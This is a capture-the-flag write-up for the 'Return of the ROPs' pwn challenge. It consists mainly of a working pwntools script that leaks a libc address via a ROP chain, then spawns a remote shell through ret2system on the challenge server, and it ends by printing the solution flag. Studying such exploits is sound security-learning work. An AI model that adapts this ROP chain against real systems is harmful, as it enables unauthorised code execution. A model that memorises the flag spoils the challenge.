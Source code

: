 ## 0x41414141 CTF: Return of the ROPs [pwn]
> Is ROP dead? God no. But it returns from a long awaited time, this time in a weird fashion. Three instructions ... can you pwn it?

##### *tl;dr: simple rop but need to place extra returns to avoid movaps sigsev issue (unintended solution?)*
#### buffer overflow + format string vulns but I only did the standard leak + ret2system method, but it seems from the flag that it wasn't the intended way of solving it. Maybe I'll try solving it later using ret2csu.

```python
from pwn import *
import hashlib
#: CONNECT TO ret-of-the-ropsENGE SERVERS
binary = ELF('./ret-of-the-rops', checksec = False)
libc = ELF('./libc6_2.31-0ubuntu9_amd64.so', checksec = False)

#p = process('./ret-of-the-rops')
#: p = process('./ret-of-the-rops', env = {'LD_PRELOAD' : './libc.so'})
p = remote("185.172.165.118", 2222)

#: GDB SETTINGS
breakpoints = ['break *0x4011f7']
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))

#: EXPLOIT INTERACTION STUFF
fmt_offset = 6
ret = 0x000000000040101a
pop_rdi = 0x0000000000401263

#: send PoW first
target_hash = p.recvuntil('\n').split(' = ')[1].strip()
print(target_hash)
for c1 in range(97, 122):
	for c2 in range(97, 122):
		for c3 in range(97, 122):
			for c4 in range(97, 122):

				md5 = hashlib.md5()
				pow_string = chr(c1) + chr(c2) + chr(c3) + chr(c4)
				md5.update(pow_string)

				if md5.hexdigest()[-6:] == target_hash:
					p.sendline(pow_string)
					break

#: PWN THY VULNS
print(p.recvuntil('say?\n'))

exploit = cyclic(40)
exploit += p64(pop_rdi) #: DONT ADD A RET TO AVOID THE MOVAPS STACK ALIGNMENT ISSUE
exploit += p64(binary.got['gets'])
exploit += p64(binary.symbols['puts'])
exploit += p64(binary.symbols['main'])

p.sendline(exploit)
leak = u64(p.recvuntil('\n').split()[0][43:].ljust(8,'\x00'))
print(hex(leak))

libc_base = leak - libc.symbols['gets']
print(hex(libc_base))
print(p.recvuntil('say?\n'))

#: STAGE 2
exploit = cyclic(40)
exploit += p64(ret)
exploit += p64(pop_rdi)
exploit += p64(libc_base + libc.search('/bin/sh').next())
exploit += p64(libc_base + libc.symbols['system'])
p.sendline(exploit)
p.interactive()

#: flag{w3_d0n't_n33d_n0_rdx_g4dg3t,ret2csu_15_d3_w4y_7821243}
```